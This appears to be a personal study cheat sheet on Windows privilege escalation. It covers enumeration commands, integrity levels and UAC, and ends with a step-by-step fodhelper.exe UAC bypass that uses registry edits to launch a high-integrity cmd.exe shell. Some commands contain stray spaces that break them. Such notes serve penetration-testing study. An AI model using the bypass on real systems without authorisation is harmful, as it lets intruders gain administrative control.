 # Priv Esc for Windows


### Users  
`whoami`  
To discover other users: `net user`  
To gain info on other users: `net user <username>` 


### Hostname
Hostname provides functional roles: `hostname`

### OS Version and Architecture
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`

### Running Processes
`tasklist /SVC`

###  Network Info 
In need to pivot or find other hidden networks: `ipconfig /all` 
Check routing tables: `route print`
Active TCP network connections with address and PID: `netstat -ano`
Firwall status and rules: `netsh advfirewall show currentprofile`
If firewall profile is active, we can list the rules: `netsh advfirewall firewall show rule name=all`

### Scheduled tasks
`schtasks /query /fo LIST /v`


### Installed Apps and Patch 
Package  manager = wmic `wmic product get name, version, vendor` 
Check if it has been updated recently: `wmic qfe get Caption, Description, HotFixID, InstalledOn` 

### Insecure File permissions
`accesschk.exe -uws "Everyone" "C:\Program Files"`


### Unmounted Disks
`mountvol`

### Device Drivers and kernel modules

**Using powershell**  
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Dis play Name’, ‘Start Mode’, Path`
Load VMware drivers with specific versions and then search for exploits:
`Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, D riverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`

### Find Binaries that autoelevate (SUID bit equivalent)
Need to check for `AlwaysInstallElevated` registry setting
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

### Automated
`windows-privesc-check` script by pentestmonkey

___________________________________________________
# Knowledge
User inspection access tokens indicate their privilege on the system

### Integrity Levels
The configured integrity level dictates what actions an application can perform, including the ability to read from or write to the local file system.

**From Win Vista Onwards:**
• System integrity process: SYSTEM rights 
• High integrity process: administrative rights 
• Medium integrity process: standard user rights 
• Low integrity process: very restricted rights often used in sandboxed processes  
**Example:** An administrator cannot change its password on a regular shell since that is medium integrity level. When that shell is ran as high integrity level, they can make the password change  

### User account control (UAC)
Tasks run in non admin until an admin authorizes priv access
Blocks changes to system wide settings by default. Purpose is so app cant do system wide impact silently, it has to ask for privs


### UAC Bypass

1. Run `C:\Windows\System32\fodhelper.exe`
2. To get info about its integrity levels and perms required to run process, will inspect **application manifest** (xml file that lets os know how to handle program)
3. Inspect manifest with sigcheck utility from sysinternals whe -a argument to obtain extended information and -m to dump the manifest. `C:\Tools\privilege_escalation\SysinternalsSuite> sigcheck.exe -a -m C:\Windows\System3 2\fodhelper.exe`
Results show that app needs full admin privs and autoelevate is true which allows the executable to auto-elevate to high integrity without prompting the administrator user for consent
4. Use process monitor `procmon.exe` to monitor activities performed by target process `fodhelper.exe`
5. Check if fodhelper is trying to access a registry key that does not exist. Add a “Result” filter for “NAME NOT FOUND"
fodhelper tries to access `HKCU:\Software\Classes\ms-settings\shell\open\command` registry key, which does not appear to exist.
fodhelper tries to access the ms-setting registry key within the HKCU hive first. This key does not exist in HKCU, but we should have the necessary permissions to create it.
6. `C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`
7. The value by default is set to null which means it doesn't do anything. We can change it and launch cmd.exe
8. ` REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`
 `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.e xe" /f`
9. Now if we launch fodhelper, we should be presented with a shell with high integrity


### Insecure File Permissions
